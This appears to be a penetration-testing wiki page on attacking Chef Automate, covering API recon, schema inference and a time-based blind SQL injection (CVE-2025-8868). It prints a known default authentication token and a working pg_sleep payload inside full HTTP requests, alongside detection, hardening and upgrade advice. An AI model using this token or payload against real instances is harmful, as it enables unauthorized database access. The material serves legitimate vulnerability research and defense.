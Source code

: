 # Chef Automate Enumeration & Attacks

## Overview

This page collects practical techniques to enumerate and attack Chef Automate instances, with emphasis on:
- Discovering gRPC-Gateway-backed REST endpoints and inferring request schemas via validation/error responses
- Abusing the x-data-collector-token authentication header when defaults are present
- Time-based blind SQL injection in the Compliance API (CVE-2025-8868) affecting the filters[].type field in /api/v0/compliance/profiles/search

> Note: Backend responses that include header grpc-metadata-content-type: application/grpc typically indicate a gRPC-Gateway bridging REST calls to gRPC services.

## Recon: Architecture and Fingerprints

- Front-end: Often Angular. Static bundles can hint at REST paths (e.g., /api/v0/...)
- API transport: REST to gRPC via gRPC-Gateway
  - Responses may include grpc-metadata-content-type: application/grpc
- Database/driver fingerprints:
  - Error bodies starting with pq: strongly suggest PostgreSQL with the Go pq driver
- Interesting Compliance endpoints (auth required):
  - POST /api/v0/compliance/profiles/search
  - POST /api/v0/compliance/scanner/jobs/search

## Auth: Data Collector Token (x-data-collector-token)

Chef Automate exposes a data collector that authenticates requests via a dedicated header:

- Header: x-data-collector-token
- Risk: Some environments may retain a default token granting access to protected API routes. Known default observed in the wild:
  - 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

If present, this token can be used to call Compliance API endpoints otherwise gated by auth. Always attempt to rotate/disable defaults during hardening.

## API Schema Inference via Error-Driven Discovery

gRPC-Gateway-backed endpoints often leak useful validation errors that describe the expected request model.

For /api/v0/compliance/profiles/search, the backend expects a body with a filters array, where each element is an object with:

- type: string (filter field identifier)
- values: array of strings

Example request shape:

```json
{
  "filters": [
    { "type": "name", "values": ["test"] }
  ]
}
```

Malformed JSON or wrong field types typically trigger 4xx/5xx with hints, and headers indicate the gRPC-Gateway behavior. Use these to map fields and localize injection surfaces.

## Compliance API SQL Injection (CVE-2025-8868)

- Affected endpoint: POST /api/v0/compliance/profiles/search
- Injection point: filters[].type
- Vulnerability class: time-based blind SQL injection in PostgreSQL
- Root cause: Lack of proper parameterization/whitelisting when interpolating the type field into a dynamic SQL fragment (likely used to construct identifiers/WHERE clauses). Crafted values in type are evaluated by PostgreSQL.

Working time-based payload:

```json
{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```

Technique notes:
- Close the original string with a single quote
- Concatenate a subquery that calls pg_sleep(N)
- Re-enter string context via || so the final SQL remains syntactically valid regardless of where type is embedded

### Proof via differential latency

Send paired requests and compare response times to validate server-side execution:

- N = 1 second

```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(1))||'","values":["test"]}]}
```

- N = 5 seconds

```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```

Observed behavior:
- Response times scale with pg_sleep(N)
- HTTP 500 responses may include pq: details during probing, confirming SQL execution paths

> Tip: Use a timing validator (e.g., multiple trials with statistical comparison) to reduce noise and false positives.

### Impact

Authenticated users—or unauthenticated actors abusing a default x-data-collector-token—can execute arbitrary SQL within Chef Automate’s PostgreSQL context, risking confidentiality and integrity of compliance profiles, configuration, and telemetry.

### Affected versions / Fix

- CVE: CVE-2025-8868
- Upgrade guidance: Chef Automate 4.13.295 or later (Linux x86) per vendor advisories

## Detection and Forensics

- API layer:
  - Monitor 500s on /api/v0/compliance/profiles/search where filters[].type contains quotes ('), concatenation (||), or function references like pg_sleep
  - Inspect response headers for grpc-metadata-content-type to identify gRPC-Gateway flows
- Database layer (PostgreSQL):
  - Audit for pg_sleep calls and malformed identifier errors (often surfaced with pq: prefixes coming from the Go pq driver)
- Authentication:
  - Log and alert on usage of x-data-collector-token, especially known default values, across API paths

## Mitigations and Hardening

- Immediate:
  - Rotate/disable default data collector tokens
  - Restrict ingress to data collector endpoints; enforce strong, unique tokens
- Code-level:
  - Parameterize queries; never string-concatenate SQL fragments
  - Strictly whitelist allowed type values on the server (enum)
  - Avoid dynamic SQL assembly for identifiers/clauses; if dynamic behavior is required, use safe identifier quoting and explicit whitelists

## Practical Testing Checklist

- Check if x-data-collector-token is accepted and whether the known default works
- Map the Compliance API request schema by inducing validation errors and reading error messages/headers
- Test for SQLi in less obvious “identifier-like” fields (e.g., filters[].type), not just values arrays or top-level text fields
- Use time-based techniques with concatenation to keep SQL syntactically valid across contexts

## References

- [Cooking an SQL Injection Vulnerability in Chef Automate (XBOW blog)](https://xbow.com/blog/cooking-an-sql-injection-vulnerability-in-chef-automate)
- [Timing trace (XBOW)](https://xbow-website.pages.dev/traces/chef-automate-sql-injection/)
- [CVE-2025-8868](https://www.cve.org/CVERecord?id=CVE-2025-8868)
- [gRPC-Gateway](https://github.com/grpc-ecosystem/grpc-gateway)
- [pq PostgreSQL driver for Go](https://github.com/lib/pq)

